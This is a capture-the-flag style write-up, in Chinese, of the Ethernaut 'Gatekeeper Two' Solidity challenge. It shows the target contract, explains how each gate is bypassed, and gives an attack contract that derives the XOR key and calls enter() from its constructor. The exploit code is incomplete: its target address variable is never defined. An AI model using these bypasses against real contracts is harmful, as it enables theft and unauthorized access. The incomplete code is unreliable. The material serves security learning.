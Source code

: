 # Gatekeeper two
assembly的用法等
```solidity
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne：和Gatekeeper one一样
2. gateTwo：extcodesize(caller)可以返回调用者地址的code size大小；gateTwo需要调用者地址没有存储代码，这
看起来似乎和gateOne有点矛盾，但在攻击合约的构造函数中调用该合约时，因攻击合约交易还未完成，没有打包进块，所以
excodesize返回的值为0；
3. gateThree：保证可以满足公式，因为`keccak256(msg.sender)`中对msg.sender进行了hash计算，又因为gateOne
和gateTwo，msg.sender为攻击合约，且攻击合约的地址不能确定（因为调用必须在构造函数中进行），所以需要将该逻辑在
构造函数中执行一遍

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    function Test() {
        uint64 a = keccak256(this);
        uint64 b = uint64(0) - 1;
        uint64 c = b - a; // c ^ a = b // b = 0xffffffffffffffff
        send(bytes8(c));
    }
    
    function send(bytes8 key) {
        addr.call(bytes4(keccak256("enter(bytes8)")), key);
    }
}
```

### 攻击方法
1. 部署攻击合约，合约构造时自动攻击。